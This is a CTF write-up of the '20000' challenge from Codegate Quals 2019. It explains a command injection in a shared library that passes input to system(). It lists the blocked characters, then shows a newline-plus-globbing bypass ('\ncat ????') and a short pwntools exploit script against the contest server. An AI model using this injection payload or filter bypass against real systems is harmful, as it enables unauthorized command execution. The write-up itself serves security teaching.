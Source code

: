 ```yaml
---
title: "20000 - Codegate Quals 2019"
date: "2019-01-28"
description: "Write-up for the 20000 challenge from Codegate Quals 2019."
tags: ["codegate", "ctf", "mhackeroni", "command-injection"]
showAuthor: false
---
```


{{< lead >}}
Authors: pietroferretti
{{< /lead >}}

>Is this the vulnerable library?

We have one executable, `20000`, and 20000 shared libs in the `20000_so` folder.

The main executable will let you choose which of the 20000 libs to actually load, then run the `test` function.

At a first look, most of the libs just immediately end execution with a call to `exit`. With a combination of testing all libs automatically and dumb luck, we noticed that the `lib_2035.so` lib calls `system("ls %s")` with our input, instead of just exiting.

`lib_2035.so` though loads and runs `filter1` from `lib_11896.so` and `filter2` from `lib_5163.so`, which prevent us from using the following characters and strings:

```
;
*
|
&
$
`
>
<
r
v
m
p
d
"bin"
"sh"
"bash"
f
l
g
```

Even with the filter, injecting arbitrary shell commands is easy, we just need to add an end-of-line character (`\n`). To read the flag file we can just use globbing and bypass the `f l g` filter.

```python
#!/usr/bin/env python2
from pwn import *
with remote('110.10.147.106', 15959) as p:
    p.recvuntil('INPUT : ')
    p.sendline('2035')
    p.recvuntil('file')
    p.sendline('"\ncat ????')
    p.interactive()
```

`flag{Are_y0u_A_h@cker_in_real-word?}`

